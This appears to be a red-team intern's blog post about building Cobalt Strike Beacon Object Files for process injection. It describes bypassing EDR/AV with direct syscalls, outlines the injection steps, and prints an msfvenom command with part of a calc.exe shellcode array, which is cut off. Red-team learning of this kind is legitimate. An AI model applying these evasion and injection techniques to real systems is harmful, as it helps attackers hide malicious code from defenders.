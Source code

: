 ```yaml
---
layout: article
title:  Week 3
tags: internship beacon-object-files process-injection
date:   2021-05-08 08:00:00 +0100
show_author_profile: true
show_edit_on_github: false
show_subscribe: false
footer: false
license: false
comments: true
---
```


I still haven't solved the `memcpy` mystery from last week, but I did succeed in developing some [Beacon Object Files](https://www.cobaltstrike.com/help-beacon-object-files) that help Red Teams fly under the radar.

### 1. Printf("Hello again, world!\n");

Last week I talked about Virtual Address Space, Userland-hooking, how Windows organizes and differentiates between User Space and Kernel Space and how I can leverage the entire situation using direct syscalls to bypass EDR/AV.

Today I'll dive deeper into the intricacies of process injection.

The process of process injection (see what I did there) usually follows a few basic steps.

1. Get a handle to the process we want to inject into
2. Allocate some memory into the target process with READ, WRITE, EXECUTE permissions
3. Write our malicious code to the allocated memory
4. Get the target process to execute our malicious code

Easier said than done. Processes don't particularly like it when you start messing with their memory and threads, and more often than not will crash. With these basics in mind, I started working on my own Beacon Object File that could inject shellcode into a process. All I needed were some WIN32 API functions that would perform the aforementioned steps.

There are some great resources out there on the topic of process injection, like [Windows Process Injection in 2019 by Safebreach Labs](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All-wp.pdf). I decided to start with the easiest and most stable approach: spawning my own process. The way I wanted to approach this, was to stay away from loading DLLs and instead inject raw shellcode.

"What is shellcode and what does it look like?", I can hear you ask. Shellcode is a tiny program, written directly in assembly in the form of opcodes and operands. Opcodes, or operation codes, are the hexadecimal representation of assembly instructions, operands are the hexadecimal respresentation of CPU registers, flags, numbers, and so on.

For all my payloads I will be using x64 shellcode to start `calc.exe`, the Windows calculator.

```c
//generated with: msfvenom -p windows/x64/exec CMD=calc.exe -f c
unsigned char shellcode[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
```